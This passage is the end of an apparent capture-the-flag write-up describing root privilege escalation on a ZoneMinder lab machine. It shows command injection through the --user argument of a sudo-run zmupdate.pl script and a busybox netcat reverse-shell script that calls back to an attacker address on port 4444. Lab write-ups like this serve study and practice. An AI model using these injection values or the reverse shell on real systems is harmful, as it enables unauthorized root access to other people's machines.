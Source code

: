 So we can execute a command like this

```
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/bin/bash -i)' --pass=ZoneMinderPassword2023
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bedfb145-366e-434e-ab03-b4323ac0b7bb)

As you can see we got a root shell but it is not responsive hehe.

Well, lets create a reverse shell using a busybox payload and send it over to the target machine

```sh
#!/bin/bash
busybox nc 10.10.14.165 4444 -e /bin/sh
```

Ensure you edit the LHOST and the LPORT to that which applies to your attacking machine

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/eb0cfa85-40da-4384-b63a-2f09bb618047)

Nice now lets run the `zmupdate.pl` script again

```
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/exploit.sh)' --pass=ZoneMinderPassword2023
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3e910bfa-05f6-4a14-a134-a6e2ac65b2bf)

We spawned a root shell hehe

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2dfb56b1-e3bd-46ab-841c-1aef00f0f722)

Box pwned successfully😎


Till Next Time :xD
<br><br>
[Back To Home](../../index.md)



